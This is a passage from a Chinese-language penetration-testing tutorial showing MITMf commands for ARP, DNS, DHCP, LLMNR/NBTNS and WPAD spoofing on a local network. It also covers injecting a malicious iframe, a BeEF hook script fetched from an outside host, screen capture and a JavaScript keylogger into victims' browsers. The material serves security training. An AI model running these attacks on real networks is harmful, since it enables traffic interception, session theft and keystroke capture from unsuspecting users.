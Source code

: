 ```
python mitmf.py -i eth0 --spoof --arp --gateway 10.10.10.1
```

+   你可以在受害者和网关（`10.10.10.1`）之间执行 ARP 欺骗：

```
python mitmf.py -i eth0 --spoof --arp --target 10.10.10.10-10.10.10.50 --gateway 10.10.10.1
```

+   你可以在对子网和网关（`10.10.10.1`）执行 ARP 欺骗攻击时执行 DNS 欺骗：

```
python mitmf.py -i eth0 --spoof --dns --arp --target 10.10.10.0/24 --gateway 10.10.10.1
```

+   你可以使用 MITMf 执行 LLMNR/NBTNS/MDNS 欺骗：

```
python mitmf.py -i eth0 --responder --wredir --nbtns
```

+   你可以执行 DHCP 欺骗攻击：

```
python mitmf.py -i eth0 --spoof --dhcp
```

这种攻击在后渗透阶段非常有用。

IP 寻址方案和子网信息取自配置文件。

+   可以使用 MITMf 注入 HTML iframe：

```
python mitmf.py -i eth0 --inject --html-url <malicious web URL>
```

+   可以注入 JavaScript 脚本：

```
python mitmf.py -i eth0 --inject --js-url http://beef:3000/hook.js
```

你可以使用`responder`模块将 ARP 欺骗作为恶意代理服务器执行 WPAD 协议的 ARP 欺骗：

```
python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --responder --wpad
```

以下是可以整合的其他参数列表：

+   **屏幕捕获**：这允许 MITMf 使用 HTML5 画布准确地获取客户端的 Web 浏览器图像，使用`--screen`命令。此外，你可以使用`--interval seconds`命令以时间间隔捕获屏幕截图。

+   **键盘记录器**：`--jskeylogger`命令将 JavaScript 键盘记录器注入受害者的网页，以捕获按键。

请记住，要查看 MITMf 工具的其他参数，你可以执行`python mitmf.py --help`命令。

完成了这一部分，你现在已经具备了使用 MITMf 执行各种类型攻击所需的技能。在下一部分，我们将介绍会话劫持攻击。

# 会话劫持
